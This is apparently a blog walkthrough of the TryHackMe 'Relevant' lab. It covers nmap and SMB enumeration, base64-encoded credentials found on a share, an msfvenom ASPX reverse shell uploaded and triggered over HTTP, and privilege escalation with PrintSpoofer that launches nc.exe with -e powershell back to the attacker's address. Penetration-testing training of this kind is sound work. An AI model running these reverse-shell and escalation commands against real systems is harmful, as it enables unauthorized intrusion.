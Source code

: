```yaml
---
layout: default
title: "Relevant"
tags: TryHackMe
description: "Get access to the system via SMB share and TRY HARDER to pwn this box."
---
```


[Relevant](https://tryhackme.com/room/relevant) is the eighth machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration

`Nmap` scan result:
```
nmap -sC -sV -o nmap.txt <target_ip>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 08:30 EDT
Nmap scan report for <target_ip>
Host is up (0.068s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-20T12:30:47+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-10-20T12:31:27+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m00s, deviation: 3h07m51s, median: 0s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-10-20T05:30:49-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-10-20T12:30:48
|_  start_date: 2020-10-20T11:32:19

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.43 seconds

```

This time we are working with `Windows Server 2016` and a bunch of ports are open.  
Usually, I'm starting with port `80`, but didn't find any use for that this time.  
The machine itself is not so stable, so I had to revert it after doing the `nmap` scan to make it work again.  

Enumerating `smb`:
```
smbclient -L <target_ip>
Enter WORKGROUP\kali's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```
The `nt4wrksv` looks interesting, let's access it.  

```
smbclient \\\\<target_ip>\\nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 4951106 blocks available
```
The `passwords.txt` contains two pair of credentials encoded in `base64`.  
The fasted way to decode them is

```
echo <hash>  | base64 --decode
```
And again, I didn't find any direct way of using that.

That's it, a dead end. I don't know what else to try.
Everything looks like rabbit holes.

That might be frustrating. The feeling of you is THAT close to getting the shell is real.  
If you will ask any OSCP student/holder what to do in this case they for sure will respond with `TRY HARDER` (usually all caps, yeah).  
I discussion on what that means to `try harder` can long for hours, so let me just drop this article here:  
[Try Harder: From Mantra to Mindset](https://www.offensive-security.com/offsec/what-it-means-to-try-harder/)

Take a deep breath, look around the pieces of evidence that you have.

- two pairs of credentials
- up to date services
- access to the `smb` where you can't do much

A common scenario is that you creating a shell and upload it to the `smb` share. Normally, in such scenarios, the `smb` share is connected to the web-server and it's a `wwwroot` directory.

A quick check on that is try to open in the browser the `passwords.txt` as we know the exact location of it:
```
http://<target_ip>/nt4wrksv/passwords.txt
```
Nothing. Again.
What if we missed something during the enumeration part?
Let's do another `nmap` scan but with the `-p` flag this time:
```
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Aha! Now we also have the port `49663` which is also running the `http`.
The content of if is the same as for port `80`, but it doesn't mean that they are the same.  
Let's try the check that we did for port `80` but this time for `49663`:

```
http://<target_ip>:49663/nt4wrksv/passwords.txt
```

There you have it, the content of `passwords.txt` in a browser:
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

---

## Exploitation

Now we can try out a scenario where we creating a reverse shell, uploading it to the `smb`, and triggering it with the browser/`curl` request.

```
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f aspx -o shell.aspx LHOST=<your_ip> LPORT=<your_port>
```

Upload it to the `smb` share with `put` command, open the `nc` listener.

You can trigger the shell by opening the following URL in the browser:
```
http://<target_ip>:49663/nt4wrksv/shell.aspx
```
Catch the shell in `nc`.

---

## PrivEsc

Let's check the privileges that our current user has:

```
c:\inetpub\wwwroot\nt4wrksv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Alright, the `SeImpersonatePrivilege` is enabled!  
Normally, I would try to use [JuicyPotato](https://github.com/ohpe/juicy-potato), but this exploit is not very stable either.  
I also could try the `incognito.exe` that I used for the exploitation of [Alfred](https://hackish.space/Alfred), but I started this series to expand my knowledge and try out new tools and techniques.  

I've heard a lot of quite a recent tool - [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), it's a great opportunity to try it out!  

As we have access to the `smb` share, you can download the `x64` version of the latest `PrintSpoofer` and upload it there.  
You can find uploaded file here: `c:\inetpub\wwwroot\nt4wrksv`.  

The tool is very easy to use:

```
c:\inetpub\wwwroot\nt4wrksv> PrintSpoofer.exe -i -c powershell
```

You can also create a reverse shell with it:

```
c:\inetpub\wwwroot\nt4wrksv>  PrintSpoofer.exe -c "c:\inetpub\wwwroot\nt4wrksv\nc.exe <your_ip> <your_port> -e powershell"
```

## Takeaway
- TRY HARDER
- TRY HARDER
- TRY HARDER
